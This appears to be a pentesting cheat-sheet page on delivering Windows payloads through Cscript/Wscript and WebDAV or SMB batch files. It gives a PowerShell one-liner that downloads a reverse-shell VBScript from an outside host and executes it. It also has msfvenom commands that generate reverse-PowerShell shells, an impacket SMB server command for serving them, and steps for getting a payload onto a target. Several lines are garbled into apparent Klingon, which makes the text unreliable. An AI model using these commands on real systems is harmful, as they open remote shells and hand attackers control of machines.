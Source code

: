 {% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## **Cscript/Wscript**
```bash
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://10.2.0.5:8000/reverse_shell.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```
**Cscript - Metasploit**

Cscript is a command-line scripting engine provided by Microsoft. It is commonly used for running VBScript or JScript scripts on Windows systems. Metasploit, on the other hand, is a popular penetration testing framework that includes various tools and exploits for testing the security of computer systems.

When it comes to using Cscript with Metasploit, there are a few techniques that can be employed. One common approach is to use Cscript to execute a malicious VBScript or JScript payload generated by Metasploit. This payload can be designed to exploit vulnerabilities in the target system and provide the attacker with remote access or control.

To execute a Metasploit payload using Cscript, the following steps can be followed:

1. Generate the payload using Metasploit. This can be done using the `msfvenom` command, specifying the desired payload type, target architecture, and other relevant options.

2. Save the generated payload as a VBScript or JScript file, with a `.vbs` or `.js` extension, respectively.

3. Transfer the payload file to the target system. This can be done using various methods, such as uploading it to a compromised web server, sending it via email, or using other file transfer techniques.

4. On the target system, open a command prompt and navigate to the directory where the payload file is located.

5. Execute the payload using Cscript by running the following command: `cscript payload.vbs` or `cscript payload.js`, depending on the file extension.

6. If successful, the payload will be executed, and the attacker will gain remote access or control over the target system.

It is important to note that using Cscript with Metasploit requires careful planning and consideration of the target system's security measures. Additionally, it is crucial to ensure that the actions performed are legal and within the scope of authorized penetration testing activities.
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.2.0.5 lport=4444 -f vbs > shell.vbs
```
**Qap by defender**

## PS-Bat
```bash
\\webdavserver\folder\batchfile.bat
```
**svchost.exe** jatlhpu' network call yIngu'\
Payload written on disk: **WebDAV client local cache**
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.2.0.5 lport=4444 > shell.bat
impacket-smbserver -smb2support kali `pwd`
```
